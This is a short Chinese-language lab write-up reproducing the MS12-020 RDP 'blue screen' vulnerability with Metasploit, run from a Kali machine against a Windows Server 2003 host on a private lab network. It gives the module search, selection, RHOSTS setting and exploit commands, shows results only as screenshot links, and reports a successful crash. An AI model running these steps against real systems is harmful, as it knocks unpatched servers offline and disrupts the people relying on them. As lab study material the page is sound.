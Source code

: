 ## 【ms12-020】蓝屏漏洞复现

### 前期准备

- 工具：msf
- 攻击机：kali ，ip：192.168.56.128
- 靶机：win server 2003，ip：192.168.56.132

### 漏洞利用

首先打开工具msf

```
msfconsole
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032216402.png" alt="image-20230403221645243" style="zoom:33%;" />

然后搜索 `ms12-020` 

```
search ms12-020
```

![image-20230403221833720](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032218833.png)

发现有两个模块，我们先使用模块0，去检测是否存在该漏洞

```
use 0
```

查看一下需要配置哪些参数

![image-20230403221939042](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032219135.png)

我们配置一下靶机ip(RHOSTS)

```
set RHOSTS 192.168.56.132
```

![image-20230403222037226](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032220259.png)

然后使用 `exploit`去执行：

![image-20230403222118804](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032221850.png)

说明存在该漏洞

然后我们使用模块1，去执行该漏洞(也要配置相关参数)

![image-20230403222207827](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032222939.png)

然后我们使用 `exploit`执行：

![image-20230403222427772](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032224871.png)

成功蓝屏